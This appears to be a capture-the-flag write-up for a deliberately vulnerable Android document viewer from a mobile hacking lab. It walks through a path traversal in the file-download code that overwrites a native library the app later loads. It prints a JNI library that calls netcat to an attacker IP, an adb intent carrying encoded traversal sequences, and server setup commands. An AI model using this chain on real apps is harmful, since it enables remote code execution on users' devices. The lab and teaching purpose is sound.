





```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" [...] android:compileSdkVersionCodename="14" package="com.mobilehackinglab.documentviewer" [...]
    <uses-sdk android:minSdkVersion="24" android:targetSdkVersion="33"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
[...]
```

```xml
 <application [...] android:debuggable="true" android:allowBackup="true" [...] android:fullBackupContent="@xml/backup_rules" android:networkSecurityConfig="@xml/network_security_config" [...] >
     
     <activity android:name="com.mobilehackinglab.documentviewer.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/pdf"/>
            </intent-filter>
        </activity>
 [...]
```

- `android.intent.action.MAIN`: 
- `android.intent.category.LAUNCHER`: 
- `android.intent.category.BROWSABLE`:

```bash
$ adb shell am start -a android.intent.action.VIEW -d "file:///path/to/your/file.pdf" -t "application/pdf" com.mobilehackinglab.documentviewer/.MainActivity
```

### `com.mobilehackinglab.documentviewer.MainActivity`

```java
public final class MainActivity extends AppCompatActivity {
    private final native void initProFeatures();
    
    protected void onCreate(Bundle savedInstanceState) {
        [...]
        setLoadButtonListener();
        handleIntent();
        loadProLibrary();
        if (this.proFeaturesEnabled) {
            initProFeatures();
        }
        [...]
    }
    
    private final void loadProLibrary() {
        try {
            String abi = Build.SUPPORTED_ABIS[0];
            File libraryFolder = new File(getApplicationContext().getFilesDir(), "native-libraries/" + abi);
            File libraryFile = new File(libraryFolder, "libdocviewer_pro.so");
            System.load(libraryFile.getAbsolutePath());
            this.proFeaturesEnabled = true;
        } catch (UnsatisfiedLinkError e) {
            Log.e(TAG, "Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)", e);
            this.proFeaturesEnabled = false;
        }
	}
    
    private final void handleIntent() {
        Intent intent = getIntent();
        String action = intent.getAction();
        Uri data = intent.getData();
        if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
            [...]
                public final void invoke2(Uri uri) {
                    MainActivity mainActivity = MainActivity.this;
                    Intrinsics.checkNotNull(uri);
                    mainActivity.renderPdf(uri);
                }
            }));
        }
    }
```

### `com.mobilehackinglab.documentviewer.CopyUtil`

```java
public final class CopyUtil {
    private static final File DOWNLOADS_DIRECTORY;
    [...]
    
    static {
        File externalStoragePublicDirectory = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS);
        DOWNLOADS_DIRECTORY = externalStoragePublicDirectory;
    }
    
    [...]
    
    public final MutableLiveData<Uri> copyFileFromUri(Uri uri) {
            Intrinsics.checkNotNullParameter(uri, "uri");
            URL url = new URL(uri.toString());
            File file = CopyUtil.DOWNLOADS_DIRECTORY;
            String lastPathSegment = uri.getLastPathSegment();
            if (lastPathSegment == null) {
                lastPathSegment = "download.pdf";
            }
            File outFile = new File(file, lastPathSegment);
            [...]
        }
[...]
```





Target:

```
12-16 23:13:51.629 11538 11538 E Companion: java.lang.UnsatisfiedLinkError: dlopen failed: library "/data/user/0/com.mobilehackinglab.
documentviewer/files/native-libraries/x86/libdocviewer_pro.so" not found

lrwxrwxrwx 1 root root 10 2023-12-06 18:40 /data/user/0 -> /data/data
```

Exploit code:

```c
#include <jni.h>
#include <stdlib.h>

// void initProFeatures
extern "C" JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(
        JNIEnv *env,
        jobject /* this */) {
    system("/system/bin/nc 192.168.1.36 1312");
}
```





Press `Ctrl + F9` to build the project, and find the produced solib in the project's directory:

```
$ find ~/AndroidStudioProjects -iname "*.so" -exec cp {} /tmp \;
```





Intent Payload:

```
$ adb shell am start -d http://192.168.1.36:8000/1/2/3/4/5/%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2fx86%2flibdocviewer_pro.so -a android.intent.action.VIEW -t application/pdf
```

Directory structure:

```
➜  www tree
.
└── data
    └── data
        └── com.mobilehackinglab.documentviewer
            └── files
                └── native-libraries
                    └── x86
                        └── libdocviewer_pro.so

7 directories, 1 file
```


```
$ mkdir -p /tmp/www/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86
$ cd /tmp/www
# rename so tp target file and move it under $ARCH folder
$ python3 -m http.server 8000

```


## Resources

- https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/jniTOC.html